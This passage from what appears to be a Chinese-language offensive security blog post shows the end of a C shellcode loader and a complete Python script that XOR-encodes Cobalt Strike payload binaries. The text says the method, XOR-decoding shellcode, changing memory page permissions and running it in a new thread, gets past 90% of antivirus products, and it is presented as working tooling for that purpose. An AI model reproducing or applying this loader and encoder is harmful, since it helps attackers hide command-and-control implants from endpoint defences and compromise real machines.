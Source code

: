 ```
		HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)coder, NULL, 0, NULL);
		WaitForSingleObject(hThread, INFINITE);
	}

	return;
} 
```

这里采用了异或解码shellcode、虚拟内存页属性调整、创建线程的方式执行shellcode，绕过90%的杀软…

> 创建线程的好处就是，可以调用WaitForSingleObject来使得shellcode执行完毕进程才退出。

好几次调试的时候，进程执行完毕了shellcode还没运行，使用WaitForSingleObject就解决了这个问题～

为此为还写了一个异或脚本：

```
import sys
from argparse import ArgumentParser, FileType

def process_bin(num, src_fp, dst_fp):
    shellcode = ''
    shellcode_size = 0
    try:
        while True:
            code = src_fp.read(1)
            if code == '':
                break
            base10 = ord(code) ^ num
            code_hex = hex(base10)
            code_hex = code_hex.replace('0x','')
            if(len(code_hex) == 1):
                code_hex = '0' + code_hex
            shellcode += '\\x' + code_hex
            shellcode_size += 1
        src_fp.close()
        dst_fp.write(shellcode)
        dst_fp.close()
        return shellcode_size
    except Exception as e:
        sys.stderr.writelines(str(e))

def main():
    parser = ArgumentParser(prog='Shellcode X', description='[XOR The Cobaltstrike PAYLOAD.BINs] \t > Author: rvn0xsy@gmail.com')
    parser.add_argument('-v','--version',nargs='?')
    parser.add_argument('-s','--src',help=u'source bin file',type=FileType('rb'), required=True)
    parser.add_argument('-d','--dst',help=u'destination shellcode file',type=FileType('w+'),required=True)
    parser.add_argument('-n','--num',help=u'Confused number',type=int, default=90)
    args = parser.parse_args()
    shellcode_size = process_bin(args.num, args.src, args.dst)
    sys.stdout.writelines("[+]Shellcode Size : {} \n".format(shellcode_size))

if __name__ == "__main__":
    main() 
```
